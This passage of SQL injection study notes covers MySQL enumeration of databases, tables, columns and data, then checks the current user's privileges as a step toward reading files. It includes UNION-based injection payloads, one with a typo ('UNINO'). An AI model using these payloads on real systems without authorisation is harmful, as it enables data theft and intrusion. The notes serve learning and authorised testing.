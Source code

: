 ```sql
SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='db_name'; -- db names from above results
```

4. COLUMNS

- to find column names in the table 
```sql
SELECT COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS where table_name='table_name'; -- table name from above result
```

5. DATA

```sql
SELECT col1, col2 FROM db_name.table_name; -- -
```

### SUMMARY

```sql
# find database version
SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA; -- will get db names
SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='db_name'; -- will get table name
SELECT COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='table_name'; -- will get columns name
SELECT col1,col2 FROM db_name.table_name; -- will get data
```

## Reading Files

1. Determine which user we are within the database

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user FROM mysql.user  
abc' UNION SELECT user() -- -
abc' UNION SELECT user from mysql.user -- -
```

2. look for what privileges we have with that user

```sql
SELECT super_priv FROM mysql.user;
abc' UNION SELECT super_priv FROM mysql.user -- -
abc' UNINO SELECT super_priv FROM mysql.user WHERE user="current_user" -- - result from above query 
```
- return Y - YES

```sql
SELECT grantee, privilege_type FROM INFORMATION_SCHEMA.user_privileges WHERE user="current_user";
```
- return possible privileges such as **SELECT, INSERT, UPDATE, DELETE, CREATE, DROP, SHUTDOWN, PROCESS, FILE,...**
